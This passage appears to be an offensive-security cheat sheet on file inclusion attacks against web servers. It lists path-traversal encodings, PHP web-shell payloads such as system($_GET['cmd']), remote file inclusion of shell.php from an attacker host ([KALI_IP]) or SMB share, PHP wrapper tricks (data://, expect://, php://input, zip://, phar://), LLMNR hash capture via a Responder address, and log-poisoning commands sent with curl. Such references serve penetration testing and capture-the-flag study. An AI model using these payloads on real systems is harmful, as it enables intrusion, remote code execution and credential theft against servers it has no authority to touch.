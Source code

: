             *   `[APACHE_CONFIG]/sites-enabled/000-default.conf`
        *   Windows
            *   Nginx    → `C:\nginx\conf\sites-enabled`
            *   Apache
                *   `C:\xampp\apache\conf\extra\httpd-vhosts.conf`
                *   `C:\Program Files\Apache Group\Apache[2/2.2/2.4]\conf\extra\httpd-vhosts.conf`
*   Obfuscation
    *   Absolute Paths    → `/[PATH]` → `\[WIN_PATH]` → `../../../../../../[LIN_WIN_PATH]`
    *   URL                         → `%2e%2e%2f`
    *   Double URL          → `%252e%252e%252f`
    *   UTF-8                      → `%c0%ae%c0%ae/`
    *   Nullbyte                 → `[FILE]%00`
    *   Nested                    → `..././` → `/%5C../` → `..///////..////..//////`
    *   Truncation             → `../[MORE]../[FILE]` → `../[FILE]/././.[MORE]`
    *   PHP Extensions   → `.txt` / `.phtml` / `.png`
    *   PHP Payloads
        *   `<?php echo system('[OS_COMMAND]');?>`
        *   `<?php echo system($_GET['cmd']);?>` → GET Query to `shell.php?cmd=[OS_COMMAND]`
        *   ``<?php echo `[OS_COMMAND]`?>``
*   RCE / LLMNR
    *   RCE                               → Backend File Upload + Folder Discovery
    *   RCE RFI                        → `[http/ftp]://[KALI_IP]/shell.php` / `\\[KALI_SMB_IP]\shell.php` → [Test With Samba](https://0xdf.gitlab.io/2020/03/28/htb-sniper.html)
    *   RCE Wrappers           → `data://text/plain;base64,[BASE64_PHP_SHELL]&cmd=id` / `expect://[OS_COMMAND]`
    *   RCE                               → `curl -s --data "[PHP_CMD_SHELL]" [URL]?param=php://input&cmd=id`
    *   RCE ([Zip Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-zip))    → `zip://shell.jpg/shell.php`
    *   RCE ([Phar Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phar)) → `phar://shell.jpg` / [Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#phar-deserialization) → Requesting `phar://shell.jpg` Creates `/shell.php` in the same directory
    *   RCE                               → [PHP Filter](https://github.com/synacktiv/php_filter_chain_generator) (No Upload Required)
    *   LLMNR                         → `\\[RESPONDER_IP]\x`
*   Log Poisoning
    *   PHP Session
        *   `/var/lib/php/sessions/sess_[PHPSESSID]`
        *   `/var/lib/php5/sess_[PHPSESSID]`
        *   `C:\Windows\Temp\sess_[PHPSESSID]`
        *   [Exploitation](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-session) → PHP Code in Username / Response Content & Body
    *   Apache / Nginx
        *   `[LOG_FOLDER]/[access/error].log` 
        *   `[LOG_FOLDER]/httpd-[access/error].log`
        *   Common Log Folders
            *   `/var/log/[EMPTY/apache2/apache24/nginx]/`
            *   `C:\xampp\apache\logs\`
            *   `C:\nginx\logs\`
            *   [Fuzzing Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) / Research
        *   Exploit
            *   `curl [HOST] -A “[PHP_PAYLOAD]”`
    *   Network
        *   [FTP](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning)    → `/var/log/vsftpd.log`
        *   [SSH](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#rce-via-ssh)    → `/var/log/sshd.log`, `/var/log/auth.log`
        *   [SMTP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#rce-via-mail) → `/var/log/mail`, `/var/mail/[USER]` 
    *   Processes
        *   Command Leak → `/proc/sched_debug`, `/proc/[PID]/cmdline`, `/proc/self/stat`
